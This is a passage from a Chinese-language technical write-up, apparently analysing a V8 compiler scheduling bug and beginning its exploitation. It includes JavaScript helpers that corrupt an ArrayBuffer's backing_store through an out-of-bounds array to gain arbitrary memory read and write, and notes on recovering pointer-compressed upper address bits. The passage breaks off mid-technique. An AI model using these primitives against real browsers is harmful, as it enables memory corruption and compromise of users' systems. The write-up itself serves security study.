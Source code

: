 建立基本的block，然后后面具体的B1、B2的就别看了和生成最终我们能看到的schedule不对应，这里主要还是和以 ID来区分的。然后后面的connect就是以控制节点去连接block，也就是：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b6724c4769c94a4c.jpg)

这里还是很容易看出来的。然后这里有个问题就是：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01575ae883e15f9445.jpg)

这里提一下，后面schedule里面没有替换后的throw，是因为上面一开始有然后被#436 Branch 替换掉了，具体上面的图很清楚了。就不解释了。

这里是漏洞导致意外生成的throw也把id：2的block和end连接起来了。然后真实情况是不能连起来的。正确的逻辑应该是下面的#436 branch的连接。这样就导致一个问题，就是多条id：2的block被一个非预期的控制流node连接，导致依赖控制流的节点被放到错的位置，本应该单独有一个block 的store -1依赖于throw， 因为throw控制流和branch #436的合并，导致store -1合并于上面的block，而不是branch被放到后面来了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01be05a2b5de9d0f08.jpg)



## 漏洞利用

**相对地址读写和任意地址读写**

之前一般的任意地址读写。

```
var array_buffer;
array_buffer = new ArrayBuffer(0x233);
data_view = new DataView(array_buffer);
backing_store_offset = 20; //backing_store相对于arr位置的偏移对应的下标，这里arr是改过长度的越界数组
function read_8bytes(addr) `{`
    arr[backing_store_offset] = Int64ToFloat64(addr);
    return data_view.getBigInt64(0, true); // true 设置小端序
`}`
function write_8bytes(addr, data) `{`
    arr[backing_store_offset] = Int64ToFloat64(addr);
    data_view.setBigInt64(0, BigInt(data), true); // true 设置小端序
`}`
```

这里看不懂的可以看从一道CTF题零基础学V8漏洞利用。

在指针压缩版本的v8中，backing_store中存放着的仍然是未压缩的地址，即64位，但是显然，由于我们在内存中读到的指针，也就是地址，是压缩的只有32位，也就是说我们通过改backing_store来任意读写的方法需要别的处理，因为我们没有高32位。

我们可以：

• 得到高32位，然后和低32位拼接起来，更改backing_store来任意读写。

• 通过改float array的elements指针来4g地址内任意读写。

**获取高32位**

```
BigUint64Array

let aa = new BigUint64Array(2);
aa[0] = 0xaaaaaaaaaaaaaaaan;
aa[1] = 0xbbbbbbbbbbbbbbbbn; % DebugPrint(aa); % SystemBreak();
```
